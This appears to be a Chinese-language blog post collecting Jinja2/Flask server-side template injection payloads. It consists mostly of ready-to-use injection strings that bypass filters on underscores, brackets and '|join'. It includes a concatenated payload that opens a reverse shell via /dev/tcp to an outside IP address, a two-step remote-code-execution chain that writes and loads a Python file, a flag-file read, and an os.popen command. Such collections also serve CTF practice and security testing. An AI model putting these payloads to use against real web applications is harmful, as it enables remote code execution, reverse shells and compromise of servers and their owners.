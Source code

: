 ```yaml
---
title: ssti
date: 2018-07-17 15:09:17
tags:
---
```


## payload大全

####  bypass 各种字符串

1. 利用request.args

```
{{''[request.args.a][request.args.b][2][request.args.c]()[40]('/opt/flag_1de36dff62a3a54ecfbc6e1fd2ef0ad1.txt')[request.args.d]()}}?a=__class__&b=__mro__&c=__subclasses__&d=read
```

2. 利用字符串拼接

```python
{{request['__cla'+'ss__']['__m'+'ro__'][9]['__subcla'+'sses__']()[230]('''/bin/sh -c 
'l'''+'''s '''+chr(62)+'''& /dev/tcp/123.207.90.143/2333 0'''+chr(62)+'''&1 ''',shell=True)}}
```

3. 利用各种编码

   > "MTIzCg==".decode("base64")

4. 利用attr

```python
{{request|attr([request.args.usc*2,request.args.class,request.args.usc*2]|join)}}&class=class&usc=_
```

```
{{request|attr(["_"*2,"class","_"*2]|join)}}
{{request|attr(["__","class","__"]|join)}}
{{request|attr("__class__")}}
{{request.__class__}}
```

#### bypass "[" 和 "]"

1. 利用 attr

```
{{request|attr((request.args.usc*2,request.args.class,request.args.usc*2)|join)}}&class=class&usc=_
```

2. 进阶版 利用.getlist

```
{{request|attr(request.args.getlist(request.args.l)|join)}}&l=a&a=_&a=_&a=class&a=_&a=_
```

#### bypassing "|join"

1. 利用format

```
{{request|attr(request.args.f|format(request.args.a,request.args.a,request.args.a,request.args.a))}}&f=%s%sclass%s%s&a=_
```

#### FinalRce:

第一步:

```
http://localhost:5000/?exploit={%set a,b,c,d,e,f,g,h,i = request.__class__.__mro__%}{{i.__subclasses__().pop(40)(request.args.file,request.args.write).write(request.args.payload)}}{{config.from_pyfile(request.args.file)}}&file=/tmp/foo.py&write=w&payload=print+1337
```

第二步:

```
http://localhost:5000/?exploit={%set a,b,c,d,e,f,g,h,i = request|attr((request.args.usc*2,request.args.class,request.args.usc*2)|join)|attr((request.args.usc*2,request.args.mro,request.args.usc*2)|join)%}{{(i|attr((request.args.usc*2,request.args.subc,request.args.usc*2)|join)()).pop(40)(request.args.file,request.args.write).write(request.args.payload)}}{{config.from_pyfile(request.args.file)}}&class=class&mro=mro&subc=subclasses&usc=_&file=/tmp/foo.py&write=w&payload=print+1337
```

#### Accessing parameters

In most examples we used request.args to access GET parameters, but there are other dictionaries that can be populated with custom values:

* GET: request.args
* Cookies: request.cookies
* Headers: request.headers
* Environment: request.environ
* Values: request.values

The following notations can be used to access attributes of an object:

* request.__class__
* request["__class__"]
* request|attr("__class__")

Elements of arrays can be accessed with:

* array[0]
* array.pop(0)

#### import

```python
{% import module %} – Allows you to import python modules.

Example: {% import subprocess %}

That’s all we need to craft an exploit code.

{% import os %}{{ os.popen("whoami").read() }}
```



